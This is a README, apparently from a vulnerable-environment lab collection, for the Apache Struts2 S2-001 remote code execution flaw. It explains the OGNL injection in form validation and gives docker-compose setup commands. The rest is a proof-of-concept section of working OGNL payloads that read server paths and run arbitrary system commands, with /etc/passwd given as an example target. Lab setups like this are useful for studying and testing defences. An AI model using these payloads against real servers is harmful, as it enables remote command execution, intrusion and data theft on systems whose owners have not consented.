

# S2-001 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

[http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> The vulnerability is that when the user submits the form data and the validation fails, the server parses the parameter values previously submitted by the user with the OGNL expression `%{value}` and repopulates the corresponding form data.For example, in the registration or login page. When submit fail, server will generally return the previously submitted data by default. Since the server uses `%{value}` to execute an OGNL expression parsing on the submitted data, it can send payload directly to execute command.

## Environment setup

Run the following commands to setup

```
docker-compose build
docker-compose up -d
```

## POC && EXP

Get the tomcat path:

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

Get the web site real path:

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

Execute command (command with parameter:`new java.lang.String[]{"cat","/etc/passwd"}`):

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```


